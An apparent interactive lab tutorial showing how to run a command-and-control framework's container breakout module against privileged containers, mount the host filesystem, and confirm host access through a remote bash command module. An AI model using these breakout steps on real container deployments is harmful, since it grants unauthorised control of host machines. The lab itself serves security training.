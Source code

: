 

#### Load the mount container breakout module and run it

Load the module from terminal 1 by going back to the `main`{{execute T1}} and then run `use module linux/go/mountContainerBreakout`{{execute T1}}.  
You can view all the information with `info`{{execute T1}} command.  
Set the module to run on all the agents with this command `set Agent all`{{execute T1}}.   

Execute it with `run`{{execute T1}} and wait for the output.  


#### Breakout  

This module will search for the host device and mount it.  
Notice that it will work only on privileged containers or containers that have the capability to mount devices.  
Once it succeeded, it will mount the host to the "/mnt0" (it can be also "mnt1", "mnt2" and so on untill it will find a folder that doesn't exist) folder.  

Make sure you are on the main menue by using `main`{{execute T1}}.  
Lod the bash module by using `use module linux/x64/bash/exec/bash`{{execute T1}}.  
Set the module to run on all the agents with this command `set Agent all`{{execute T1}}.   
Set the `Command` to list the files under `mnt0` by running `set Command "ls -ll /"`{{execute T1}} and `run`{{execute T1}}.  
You will see a file named "/this_is_node01_host" which means that you have access to the host.  
You can verify it by checking it also in `node01` by running `ls -ll /`{{execute HOST2}}.  
Feel free to create other files inside `node01`'s host and check that you can see them.  


